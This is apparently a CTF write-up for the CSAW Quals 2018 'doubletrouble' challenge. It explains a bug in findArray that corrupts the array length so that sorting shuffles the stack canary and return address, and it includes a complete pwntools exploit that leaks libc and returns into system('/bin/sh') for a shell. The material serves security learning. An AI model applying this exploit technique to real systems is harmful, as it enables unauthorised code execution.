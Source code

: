```yaml
---
layout: post
title: CSAW Quals 18 - doubletrouble
categories: ctf_csawquals18
keywords: "exploitation"
comments: true
authors:
    - andreafioraldi
---
```

{{ page.date | date: "%B %-d, %Y" }}

The core function is the following:

```c
int game()
{
  int v0;
  long double sum;
  long double max;
  long double min;
  int v4;
  int how_long;
  int idx;
  char *s;
  double array[64];
  unsigned int v10;

  canary = __readgsdword(0x14u);
  printf("%p\n", array);  // Stack address leak
  printf("How long: ");
  __isoc99_scanf("%d", &how_long);
  getchar();
  if ( how_long > 64 )
  {
    printf("Flag: hahahano. But system is at %d", &system);
    exit(1);
  }
  idx = 0;
  while ( idx < how_long )
  {
    s = malloc(100u);
    printf("Give me: ");
    fgets(s, 100, stdin);
    v0 = idx++;
    array[v0] = atof(s);
  }
  printArray(&how_long, array);
  sum = sumArray(&how_long, array);
  printf("Sum: %f\n", sum);
  max = maxArray(&how_long, array);
  printf("Max: %f\n", max);
  min = minArray(&how_long, array);
  printf("Min: %f\n", min);
  v4 = findArray(&how_long, array, -100.0, -10.0);
  printf("My favorite number you entered is: %f\n", array[v4]);
  sortArray(&how_long, array);
  puts("Sorted Array:");
  return printArray(&how_long, array);
}
```

The programs store the readed doubles in an array on the stack.
The array is 532 bytes from the return address, so 64 entries are not enough for a buffer overflow.

The findArray function is interesting, a correct manipulation of the input can change the how_long variable.

```c
int findArray(int *len, double *arr, double a, double b)
{
  int saved_len;

  saved_len = *len;
  while ( *len < 2 * saved_len )
  {
    if ( arr[*len - saved_len] > a && b > arr[*len - saved_len] )
      return *len - saved_len; // Here *len is not restored to saved_len
    *len += &GLOBAL_OFFSET_TABLE_ - 134529023; //*len += 1
  }
  *len = saved_len; // We want to avoid this piece of code
  return 0;
}
```

Giving a number greater than -10 `*len` is increased and with a number greater than -100 and lower than -10 we can avoid the restring of `*len` with `saved_len`.

We choose -1.1 and -20.1.

With `how_long` greater than 64 the sortArray procedure will sort our input and the values that are on the stack after the array, like the canary and the return address.

The binary addresses casted to double are sorted after -1.1.

To exploit the vulnerability we need to place the canary in the same position before and after the sorting so it must start with 0x00b.
Due to this requirement the exploit must be runned many times to work.

Here the exploit:

```python
#!/usr/bin/env python

from pwn import *

LIBC_NAME = "./libc6_2.27-3ubuntu1_i386.so" # found on libc database using system (0x200)

def pdouble(f):
    return struct.pack('<d', f)

def double_to_hex(f):
    return hex(struct.unpack('<Q', struct.pack('<d', f))[0])

def int_to_double(i):
    return struct.unpack('<d', p64(i))[0]

def hex_to_double(h):
    return struct.unpack('<d', h.decode("hex")[::-1])[0]

libc = ELF(LIBC_NAME)

while True:
    #p = process("./doubletrouble", env={"LD_PRELOAD": LIBC_NAME})
    p = remote("pwn.chal.csaw.io", 9002)

    try:
        
        ### STAGE 1 - leak libc a restart main
        
        stack = int(p.recvline(False), 16)

        l = 64
        p.sendafter("How long: ", str(l) + "\n")

        p.sendafter("Give me: ", repr(int_to_double(0x8049506FFE26D6C)) + "\n") #main = 0x8049506
        p.sendafter("Give me: ", repr(int_to_double(0x8049506FFE26D6C)) + "\n")

        for i in xrange(3):
            p.sendafter("Give me: ", "-1.1\n")

        for i in xrange(l -5):
            p.sendafter("Give me: ", "-20.1\n")

        p.recvuntil("Sorted Array:")
        p.recvuntil("0:")

        off = 0xf7f8bfff - 0xF7DB4000

        libc.address = u32(pdouble(float(p.recvline(False)))[4:]) - off
        if libc.address & 1 == 1:
            libc.address -= 1

        print "LIBC: ", hex(libc.address), hex(libc.symbols["system"])[2:]

        p.recvuntil("68:") + p.recvline(False)
        
        
        ### STAGE 2 - execute system("/bin/sh")
        
        stack = int(p.recvline(False), 16)

        l = 64
        p.sendafter("How long: ", str(l) + "\n")

        v = hex_to_double(("0804900a0804900a")) #0x0804900a : ret
        p.sendafter("Give me: ", repr(v) + "\n")
        
        v = hex_to_double("0804A0D5" + hex(libc.symbols["system"])[2:])
        p.sendafter("Give me: ", repr(v) + "\n")
        
        bin_sh = libc.address + 0x17e0cf
        v = hex_to_double(("09049786" + hex(bin_sh)[2:]))
        p.sendafter("Give me: ", repr(v) + "\n")

        for i in xrange(2):
            p.sendafter("Give me: ", "-1.1\n")

        for i in xrange(l -5):
            p.sendafter("Give me: ", "-20.1\n")

        p.recvuntil("Sorted Array:")
        p.recvuntil("0:")
        
        p.interactive()
        p.close()
    except KeyboardInterrupt:
        p.close()
        exit()
    except Exception:
        p.close()
        continue
```







